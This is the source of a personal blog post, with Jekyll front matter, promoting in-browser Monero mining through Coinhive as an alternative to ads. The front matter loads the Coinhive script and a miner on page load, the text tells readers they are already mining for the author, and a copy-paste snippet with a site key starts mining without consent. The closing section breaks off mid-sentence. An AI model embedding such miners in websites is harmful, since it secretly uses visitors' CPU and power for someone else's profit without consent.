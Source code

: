 ```yaml
---
layout: post
title: Mine Monero in Browser
excerpt: "Mine Monero just by visiting your a website."
image: "images/daria-sukhorukova-6338.jpg"
imageattribution: "Daria Sukhorukova"
imageattributionlink: https://unsplash.com/@dariasukhorukova
tags:
  - guide
  - blog
script: "miner.js"
externalscript: "https://coin-hive.com/lib/coinhive.min.js"
---
```


## Current State of the Free Web

**Ads suck.**

I've blogged about ads before and how to use [Google AdSense][0].
I have AdSense enabled on this site and it earns next to nothing.
It's intrusive and a lot of people view it negatively.

However, there aren't many non intrusive alternatives. But here is one.

## Monero Mining

Monero is a blockchain based currency that has a strong emphasis on privacy.
It's constantly under development and seeing steady increases in value.

[Coinhive][1] has created a Javascript Monero mining solution that enables websites to earn money without affecting the visual representation of the site.
Mining Monero requires some computation on the users CPU, and the successes from mining are fed directly back into the account of the website owner.

Since you're on this page, you're mining Monero for me right now.

**Thank you for supporting me!**

*Unless your ad blocker is blocking it! Oh no! Check below to find out.*

## Implementation

Implementation is trivial. Simply include the Coinhive script on your page, and call the start function.

```
<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
	// Replace this with your 'site key'.
	var miner = new CoinHive.Anonymous('MCtA4Mc6TUNeLD9cOrkuPw06B2Ulz4Ic');
	miner.start();
</script>
```

They also offer callbacks so you can display this information to the user, like this:

> Hashes per Second: **<span id="hashesPerSecond">Loading...</span>**
>  
> Total Hashes: **<span id="totalHashes">Loading...</span>**
>  
> Accepted Hashes: **<span id="acceptedHashes">Loading...</span>**

<button id="toggleMiner" disabled="true">Loading...</button>

If this doesn't update for you, you probably have [NoScript][3] or an ad blocker installed that is blocking the miner.
If you want to see how this works, try turning them off and reloading the page.

## Future Work

The major downside of this is that this causes a huge utilisation on the CPU.
While most agree they prefer this solution over ads, this can still be viewed as exploiting users without providing them anything in return, (not including your site content).

Coinhive has a deep API that allows you to associate mining with particular users so you can record the number of hashes provided and in return provide the user with rewards.

The [real world use case][2] on the Coinhive website is an incredibly persuasive example of this.

## Closing

Over the next couple of *time periods* you may see a transistion

[0]: https://www.google.com/adsense
[1]: https://coin-hive.com/
[2]: https://coin-hive.com/#use-case
[3]: https://noscript.net/
